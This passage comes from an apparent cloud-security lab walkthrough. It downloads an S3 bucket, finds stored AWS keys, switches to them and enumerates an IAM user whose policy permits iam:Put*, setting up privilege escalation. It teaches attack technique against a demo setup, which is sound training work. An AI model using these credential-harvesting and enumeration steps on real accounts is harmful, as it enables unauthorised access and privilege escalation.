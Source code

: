 Yes! you are able to list a bucket!  
Can you also download its content?  

```sh
aws s3 sync s3://s3-bucket-ppe-attack-demo-4421 ./s3-download
```  

Output:  
```sh
download: s3://s3-bucket-ppe-attack-demo-4421/test.py to s3-download/test.py
download: s3://s3-bucket-ppe-attack-demo-4421/aws_keys.txt to s3-download/aws_keys.txt
download: s3://s3-bucket-ppe-attack-demo-4421/README.md to s3-download/README.md
```  
You can!
and you also see that there is a file called `aws_keys.txt`  

Inside that file other aws access keys, export those and begin enumeration for the new user:  
```sh
aws sts get-caller-identity
```  

Output:  
```json
{
    "UserId": "<USER-ID-HERE>",
    "Account": "<ACCOUNT-ID-HERE>",
    "Arn": "arn:aws:iam::<ACCOUNT-ID-HERE>:user/vulnerable-iam-user"
}
```  

Our new user is called `vulnerable-iam-user`, lets list it's policies:  
```sh
aws iam list-user-policies --user-name vulnerable-iam-user
```  

Output:  
```json
{
    "PolicyNames": [
        "vulnerable-iam-policy"
    ]
}
```  

This is the policy:  

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Action": [
                "iam:Get*",
                "iam:List*",
                "iam:Put*",
                "iam:SimulateCustomPolicy",
                "iam:SimulatePrincipalPolicy"
            ],
            "Resource": "*"
        }
    ]
}
```  
